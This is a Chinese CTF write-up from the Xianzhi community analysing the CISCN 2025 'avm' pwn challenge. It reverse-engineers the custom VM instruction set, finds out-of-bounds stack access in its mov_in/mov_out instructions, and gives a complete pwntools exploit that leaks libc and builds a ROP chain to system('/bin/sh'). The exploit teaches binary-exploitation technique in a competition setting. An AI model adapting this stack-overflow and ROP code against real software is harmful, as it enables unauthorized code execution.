# vm_pwn-先知社区

> **来源**: https://xz.aliyun.com/news/18197  
> **文章ID**: 18197

---

# 以ciscn 2025pwn中的avm为例，看一下pwn中的vm应该如何操作：

ciscn\_2025的avm这道pwn的vm题，与普通的虚拟机逆向不同，普通的vm逆向只是用数值来对应各种寄存器的操作，但是没有虚拟出一套指令集。avm这道题直接虚拟出了一套自己的指令集（32位的指定长度指令集），而不是简单的数值对应操作。

## 分析指令格式

1. 通过下面这几个位置，可以确定指令的长度位32位：

每次执行一个函数，都会有一个+4的操作 ==> 这个加4的对象就是 ip，指令在内存中的基地址就是与 ip 相加的那个值



这里相当于队"cpu"进行初始化



2. 开始执行指令是在 main函数中调用的最后一个函数：

index是取出4字节的硬件编码之后，再右移28位 ==> 确定**4字节的高4位是指令标号**



再分析其他的操作，得出指令剩下位对应的含义：

加法操作，reg1 = reg2 + reg3：



剩下的减、乘、除、异或、与、都和这个格式一样，额外有两个操作与之不同：

前面调用 "指令" 的时候，传入了两个参数，一个是 "cpu"，另外一个是 "内存" ,这个 "内存" 是在**栈上申请的**

这条指令的作用是根据reg2 + offset， 将寄存器reg1中的值 放到 "内存"中（地址为 “内存基址” + reg2 + offset） ，这里offset有12位，所以可以指定至少0x1000的 ”内存“ 空间，但是在判断内存范围的时候只取了一个字节（BYTE2(v3)），所以这里存在**栈溢出**：

**mov\_out**



另外一条特殊指令**mov\_in**，将内存中的值转移到寄存器reg1中，同样存在栈溢出



3. 确定指令格式如下：



在ida中导入下面这个结构体,：



## 利用

1. 上面分析指令格式后，可以看出只有 **最后两个操作存在越界访问** ：一个从 **内存** 中拿值放入寄存器reg1，一个将寄存器reg1的值放入 **内存** 。

利用思路：由于不存在put函数泄漏libc <== pwn附件中 没有pop\_rdi\_ret这条指令。所以考虑使用**栈上原本存在的与libc有关的地址 ==> libc\_base + 对应函数偏移(固定)** 将其读入到寄存器中，再用sub指令减去指定偏移，就能得到libc\_base。

先看一下**内存**的地址：



在内存的高地址处，刚好存在一个与libc相关的地址，固定偏移为 0x3cf211，0x7fffffffd528-0x7fffffffd090=0x498，所以在指令mov\_in中指定偏移offset为0x498（0x1000），即能将该地址读入到寄存器中：



2. 得到libc\_base + 固定偏移，该固定偏移的值（0x3cf211）也知道，但是我们已有的指令不能直接向寄存器上传入指定的值，所以还要借助前面的两个越界访问，将固定偏移0x3cf211放到寄存器上，再用sub指令相减，得出libc\_base：

要在输入的时候输入固定偏移0x3cf211，只能放在payload的末尾，否则所有指令还没有执行完，就会由于指令格式不正确导致退出。

先确定输入的opcode对应上面 **内存** 的偏移，0x7fffffffd1b0-0x7fffffffd090 = 0x120，所以这里可以利用溢出，将我们输入的值传入到寄存器中：



3. 上面得到libc基地址，最后需要挟持程序的返回值，最后考虑挟持的是run函数，即在 **交互输入的指令** 执行完成之后进行挟持：

确定函数返回值，想对 **内存** 的偏移，在利用mov\_out指令覆盖掉返回值即可：

0x7fffffffd1a8 - 0x7fffffffd090 = 0x118，所以在指令中指定offset为0x118即可覆盖掉返回值run函数，(这里覆盖main函数的返回值(0x7fffffffddc8)也可以)，其他的返回值都行不通（mov\_out指令返回值(0x7fffffffd068)在内存的低地址处）：



## EXP：

1. 脚本如下：

```
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

def debug():
    gdb.attach(p)

# 192.168.38.143 13531
# nc 192.168.34.152 13531
choose = 2
if choose == 1 :    # 远程
    success("远程")
    p = remote("10.1.134.18",9999)
    # libc = ELF("/home/kali/Desktop/haha/libc-2.27.so")
    libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc-2.31.so')
# libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.39-0ubuntu8_amd64/libc.so.6')

else :              # 本地
    success("本地")
    p = process("/home/kali/Desktop/haha/ctf/ciscn24/pwn/avm/pwn")
    libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')
    debug()
# libc = ELF('/home/kali/Desktop/source_code/glibc-2.38_lib/lib/libc.so.6')
# ld = ELF("ld.so") 

def add(reg2,reg3,reg1):
    # reg2 + reg3 ==> reg1
    payload = 1 << 28
    payload += (reg2 & 0x1f) << 5 
    payload += (reg3 & 0x1f) << 16
    payload += (reg1 & 0x1f)
    return (p32(payload))
    print("add")

def sub(reg2,reg3,reg1):
    # reg2 - reg3 ==> reg1
    payload = 2 << 28
    payload += (reg2 & 0x1f) << 5 
    payload += (reg3 & 0x1f) << 16
    payload += (reg1 & 0x1f)
    return (p32(payload))
    print("sub")

def mov_out(offset,reg2,reg1):
    # reg1 ==> offset + reg2
    payload = 9 << 28
    payload += reg1 & 0x1f
    payload += (reg2 & 0x1f) << 5 
    payload += (offset & 0xfff) << 16
    return (p32(payload))
    print("mov_out")

def mov_in(offset,reg2,reg1):
    # offset + reg2 ==> reg1
    payload = 10 << 28
    payload += reg1 & 0x1f
    payload += (reg2 & 0x1f) << 5 
    payload += (offset & 0xfff) << 16
    return (p32(payload))
    print("mov_it")


# add(1,2,3)
payload = mov_in(0x498,2,1)     # libc + offset
payload += mov_in(0x140 + 8*3,2,3)    # system_addr_offset
payload += mov_in(0x148 + 8*3,2,4)    # pop_rdi_ret_offset
payload += mov_in(0x150 + 8*3,2,5)    # offset
payload += mov_in(0x158 + 8*3,2,6)    # bin_sh_offset
payload += mov_in(0x160 + 8*3,2,7)    # ret_addr
# ========= libc_base =========
payload += sub(1,5,1)      # 计算libc_base
payload += add(1,3,10)      # 计算得到system_addr
payload += add(1,4,11)      # 计算得到pop_rdi_ret
payload += add(1,6,12)      # 计算得到bin_sh
# ========= ROP =========
# 覆盖run函数返回值
payload += mov_out(0x118,2,11)  # pop_rdi_ret
payload += mov_out(0x120,2,12)  # bin_sh
payload += mov_out(0x130,2,10) # system_addr
payload += mov_out(0x128,2,7)   #ret

# 覆盖main函数返回值
# payload += mov_out(0x118 + 0xC20,2,11)  # pop_rdi_ret
# payload += mov_out(0x120 + 0xC20,2,12)  # bin_sh
# payload += mov_out(0x130 + 0xC20,2,10) # system_addr
# payload += mov_out(0x128 + 0xC20,2,7)   #ret

system_addr = libc.sym["system"]
bin_sh =  next(libc.search(b'/bin/sh'))
free_hook_addr = libc.sym["__free_hook"]
success("system ==> " + hex(system_addr)) # 0x50d70
pop_rdi_ret = 0x000000000002a3e5
offset = 0x3cf211
ret_addr = 0x000555555555AFC

payload += p64(system_addr) + p64(pop_rdi_ret) + p64(offset) + p64(bin_sh) + p64(ret_addr)
p.send(payload)
# pause()

p.interactive()
```

利用mov\_in指令 越界访问读入输入的值到寄存器中:



sub指令和add指令计算处值之后，再利用mov\_out指令越界访问，将pop\_rdi system写入到run函数的返回地址处：



最后指令执行完（报错）退出run函数，在这里挟持执行流：



成功获得shell：


